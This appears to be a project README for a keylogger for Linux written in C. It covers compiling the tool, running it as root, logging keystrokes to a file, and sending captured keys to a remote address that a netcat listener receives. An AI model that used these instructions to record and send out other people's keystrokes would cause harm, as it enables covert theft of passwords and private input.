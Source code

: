 # Keylogger for Linux
A simple keylogger for linux written in C.

### Usage
To compile the keylogger, type ```make```.
Run ```keylogger``` file with root permission.

You can save the output with ```-f filename``` option. For example:
```
# keylogger -f keys.txt
```

You can redirect sniffed keys to a remote server, using ```-s ip:port``` option. For example:
```
# keylogger -s 127.0.0.1:12345
```
The server would be a netcat server listening on a specific port.
```
nc -l -p 12345
```

